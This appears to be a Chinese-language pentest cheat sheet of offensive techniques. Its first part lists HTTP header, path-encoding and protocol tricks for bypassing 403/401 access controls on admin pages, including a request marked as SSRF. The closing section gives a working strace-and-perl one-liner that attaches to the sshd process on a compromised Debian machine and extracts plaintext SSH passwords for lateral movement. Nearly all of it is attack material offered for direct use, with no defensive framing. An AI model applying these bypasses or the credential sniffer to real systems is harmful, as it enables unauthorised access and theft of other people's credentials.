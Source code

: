 
当渗透时遇到了 403 或者 302、401 的拒绝访问，不要怕，多 FUZZ 几次
- 从 HTTP Header 层面 bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    ```

- 从 URL 参数层面 bypass
    ```bash
    /admin/panel    # ===> 403
    /admin/monitor  # ===> 200

    /admin/monitor/;panel   # ===> 302
    ```
    ```bash
    web.com/admin   # ===> 403

    web.com/ADMIN       # ===> 200
    web.com/admin/      # ===> 200
    web.com/admin/.     # ===> 200
    web.com//admin//    # ===> 200
    web.com/./admin/./  # ===> 200
    web.com/./admin/..  # ===> 200
    web.com/%2f/admin/  # ===> 200
    web.com/admin.json  # ===> 200(ruby)

    web.com/%2e/admin   # ===> 200
    web.com/%252e/admin # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin       # ===> 302
    web.com/admin..;/   # ===> 200
    ```

- 从协议层面 bypass
    ```bash
    http://web.com/admin    # ===> 403
    https://web.com/admin   # ===> 200
    ```

---

当我们拿下 windows 机器时可以通过抓内存中的密码进行横向，但 linux 却不可能抓到内存中的密码，但是 Debian 系列下的 linux 系统可以通过监听 sshd 进程的数据抓取出明文密码，比如你拿下了一台管理员机器，上面有 xshell，你可以手动开一个监听，在开一个登录，监听的窗口上就抓出密码了
```bash
strace -xx -fp `cat /var/run/sshd.pid` 2>&1| grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```
